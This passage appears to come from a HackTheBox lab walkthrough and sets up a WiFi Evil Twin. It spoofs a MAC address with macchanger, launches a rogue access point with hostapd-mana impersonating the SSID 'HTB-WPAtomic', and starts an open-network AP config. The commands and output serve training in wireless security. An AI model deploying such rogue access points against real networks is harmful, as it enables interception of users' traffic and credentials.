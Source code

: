```
wifi@WiFiIntro:~$ sudo ifconfig wlan1 down

wifi@WiFiIntro:~$ sudo macchanger -m D8:D6:3D:EB:29:D5 wlan1

Current MAC:   7e:35:02:3c:4a:1d (unknown)
Permanent MAC: 02:00:00:00:03:00 (unknown)
New MAC:       d8:d6:3d:eb:29:d5 (unknown)

wifi@WiFiIntro:~$ sudo ifconfig wlan1 up
```

With the `mac.conf` file and `wlan1` interface now configured, students need to launch the Evil Twin.

Code: shell

```shell
sudo hostapd-mana mac.conf
```

```
ifi@WiFiIntro:~$ sudo hostapd-mana mac.conf

Configuration file: mac.conf
rfkill: Cannot open RFKILL control device
Using interface wlan1 with hwaddr d8:d6:3d:eb:29:d5 and ssid "HTB-WPAtomic"
random: Only 19/20 bytes of strong random data available from /dev/random
random: Not enough entropy pool available for secure operations
WPA: Not enough entropy in random pool for secure operations - update keys later when the first station connects
wlan1: interface state UNINITIALIZED->ENABLED
wlan1: AP-ENABLED 
```

For the next step, students need to deploy an Open-Network AP. Therefore, students need to open a new terminal tab, where they will create the necessary configuration file.

Code: shell

```shell
cat << EOF > open.conf 
interface=wlan2
hw_mode=g
ssid=HTB-WPAtomic
channel=1
driver=nl80211
EOF
```

```
wifi@WiFiIntro:~$ cat << EOF > open.conf 
interface=wlan2
hw_mode=g
ssid=HTB-WPAtomic
channel=1
driver=nl80211
EOF
```
